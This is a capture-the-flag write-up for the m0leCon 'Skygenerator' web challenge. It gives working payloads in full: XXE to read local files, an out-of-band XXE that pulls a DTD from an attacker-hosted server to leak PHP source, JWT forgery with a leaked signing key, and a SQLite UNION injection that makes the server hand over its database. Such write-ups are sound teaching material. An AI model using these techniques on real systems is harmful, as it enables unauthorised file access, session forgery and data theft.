




# Skygenerator
> Want the flag? Better try harder!
Note: The flag is located into the flag table
Hint: PHP source code and XML don't go along very well
Author: @lpezzolla

Link: https://challs.m0lecon.it:8000/

Points: 153

Solves: 32

Tags: web, xxe, CDATA, SQLite, PHP, Parameterized Query

## Initial Steps
We are given a simple website where we can create an account, login and upload an xml file which contains tags for stars which have a text and a position. Thus my first instinct was to do try XXE injection.

## Simple XXE to read local files
I intercepted the XML upload request with Burp and sent it to Repeater, so that I can simply modify and repeat it. 


We try a simple XXE to leak a local file:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<sky>
    <star x="0" y="200">&test;</star>
</sky>
```

It works! We get back a sky image which contains the file content as text. We can not only leak files but also list directories! I looked around and found this interesting one:
> /var/www/html/skygenerator/public


Some files look very interesting, e.g. *admin_dashboard.php*. There is also a SQLite database *skygenerator.db* in another folder. Unfortunatly we get an error when trying to leak any of these files. Not even [Out-of-band XXE using a DTD](https://dzone.com/articles/out-of-band-xml-external-entity-oob-xxe) hosted on my server worked. Luckily there was the hint.

## Advanced XXE to read local php files
We know that trying to read php files results in an error. This makes sense as the raw php code would just be inserted inside the XML messing with its syntax, not allowing a valid image to be generated.

Thus we try to wrap it in a CDATA block

From https://en.wikipedia.org/wiki/CDATA#CDATA_sections_in_XML:
```
A CDATA section is a piece of element content that is marked up to be interpreted literally, as textual data, not as marked up content. 
```

However simply doing this doesn't work, as then the entity refernce *&test;*would be treated as plain text and not replaced:
```xml
<star x="0" y="200"><![CDATA[&test;]]></star>
```

But we can use some [DTD Magic](https://dzone.com/articles/xml-external-entity-xxe-limitations) to wrap the php code after it has been inserted. 
For this we submit the following XML:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE star [
  <!ENTITY % dtd SYSTEM
  "http://EXAMPLE/evil.dtd">
  %dtd;
  %all;
]>
<sky>
    <star x="0" y="0">&fileContents;</star>
</sky>
```

In addition we host the following *evil.dtd* file on our public server EXAMPLE:
```xml
<!ENTITY % file SYSTEM "file:///var/www/html/skygenerator/public/admin_dashboard.php">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
```

Holy shit that works! Here are the interesing files:

> admin_dashboard.php (top-half)


> admin_dashboard.php (bottom-half) (received by setting the stars y-coordinate to -720)


> config.php


The admin dashboard looks very interesting, since it allows us access to the database. However we can see in the source code that our role has to be "admin". This is where the *config.php* helps us.

## Fake cookie to access admin panel

From *config.php* we can extract the secret key, used to sign JWT session cookies:
```
Vb8lckQX8LFPq45Exq5fy2TniLUplKGZXO2
```

We use https://jwt.io/, paste our cookie and changes the role string to "admin" with length 5. Then we replace our cookie. Now we can access /admin_dashboard!

## SQLite Injection
Looking at the source code of *admin_dashboard.php* I spotted a vulnerability in the parameterized query. $key is insterted directly into query instead of as a parameter! 

Since I never did this sort of injection before and it was not straightforward, I proceeded to build a local setup replicating the functionality of the admin dashboard, to be able to debug the queries better. There were several character that were not possible in the injection, due to how PHP handles them. For each I had to find a replacement:
- " " -> /**/
- "." -> CHAR(46)
- "+" -> ||

Finally I came up with this payload. I inserted it directly into the page so I can simply download the zip file, instead of getting it in raw form in Burp.

Inserted in /admin_dashboard:
```html
<input type="number" class="form-control" name="user_id" id="user_id" required="" value="-1">

<input name="2>1/**/UNION/**/SELECT/**/'/var/www/html/skygenerator/data/skygenerator'||CHAR(46)||'db'--" value="1337">
```
The name of the second input tag will map to $key.

Thus the local query would look like this:
```sql
SELECT filename FROM skies WHERE user_id=:user_id AND 2>1/**/UNION/**/SELECT/**/'/var/www/html/skygenerator/data/skygenerator'||CHAR(46)||'db'--
```
The idea is that the first SELECT does not return any result, because it set user_id=-1. The second SELECT will return the path to the SQLite database, which the server will then zip and send to us.

## Extract flag from leaked database
Using *sqlite3* I can browse the database and find the flag.

```bash
$: sqlite3 skygenerator.db
SQLite version 3.29.0 2019-07-10 17:32:03
Enter ".help" for usage hints.
sqlite> .tables
flag   skies  users
sqlite> SELECT * FROM flag;
ptm{XSS_4r3_b4d_sh1t_YN8aSUf8m0E8}
```

Finally we have the flag in this "warmup" challenge:
```
ptm{XSS_4r3_b4d_sh1t_YN8aSUf8m0E8}
```

## Slighly different solution
Check out [PinkDraconian's video](https://www.youtube.com/watch?v=dznJXW_w5Y8). Instead of downloading the database he used SQL's SUBSTR function and a script to extract the flag from the flag table.
